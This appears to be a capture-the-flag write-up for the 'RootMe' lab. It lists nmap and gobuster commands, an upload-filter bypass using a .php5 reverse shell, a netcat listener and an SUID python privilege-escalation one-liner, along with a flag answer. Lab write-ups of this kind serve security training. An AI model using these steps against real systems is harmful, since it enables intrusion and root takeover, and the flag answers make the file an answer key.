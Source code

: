 # RootMe


- Deploy the machine

	no answer needed

- Scan the machine, how many ports are open?

	- `nmap <TARGET_IP>`
	- `2`

- What version of Apache are running?

	- `nmap -sV <TARGET_IP>`
	- `2.4.29`

- What service is running on port 22?

	- `ssh`

- Find directories on the web server using the GoBuster tool.

	no answer needed

	- `gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

- What is the hidden directory?

	- `/panel/`

- Find a form to upload and get a reverse shell, and find the flag. user.txt

	- Go to `http://<TARGET_IP>/panel/` with a browser
	- Change the default IP address in reverse-shell.php5 with your IP address. (php5 because php is not allowed.)
	- Upload the reverse-shell.php file.
	- On your machine execute `nc -lvnp 1234`
	- You should get a shell.
	- `find / -name user.txt`
	- `cat /var/www/user.txt`
	- `THM{y0u_g0t_a_sh3ll}`

- Search for files with SUID permission, which file is weird?

	- `find / -user root -perm /4000`
	- `/usr/bin/python`

- Find a form to escalate your privileges.

	no answer needed

- root.txt

	- Go to [gtfobins-python-suid](https://gtfobins.github.io/gtfobins/python/#suid)
	- `/usr/bin/python -c 'import os;os.execl("/bin/sh","sh", "-p")'`
	- `cat /root/root.txt`
	- `THM{********_**********}`





